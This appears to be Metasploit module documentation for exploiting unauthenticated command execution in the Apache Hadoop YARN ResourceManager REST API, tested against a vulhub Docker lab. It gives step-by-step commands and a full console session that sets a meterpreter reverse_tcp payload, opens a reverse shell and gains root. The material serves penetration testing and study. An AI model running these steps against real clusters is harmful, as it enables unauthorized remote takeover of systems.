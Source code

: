 ## Description

This module exploits an unauthenticated command execution vulnerability in Apache Hadoop through ResourceManager REST API.

## Vulnerable Application

**Vulnerable Application Link**

- docker

https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

### Vulnerable Application Installation Setup.

Change dictory to `vulhub/hadoop/unauthorized-yarn`, and run `docker-compose up -d`


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/hadoop_unauth_exec```
  4. Do: ``set rhost x.x.x.x``
  5. Do: ``set rport 8088``
  6. Do: ``check``

``[+] 192.168.77.141:8088 The target is vulnerable.``

  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: ``exploit``
  9. You should get a shell.


## Scenarios

```
msf5 > use exploit/linux/http/hadoop_unauth_exec
msf5 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set rhost 192.168.77.141
rhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.77.141   yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set lhost 192.168.77.141
lhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.77.141:4444
[*] Sending Command
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (853256 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.77.141:4444 -> 172.20.0.3:34138) at 2018-05-15 03:21:17 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
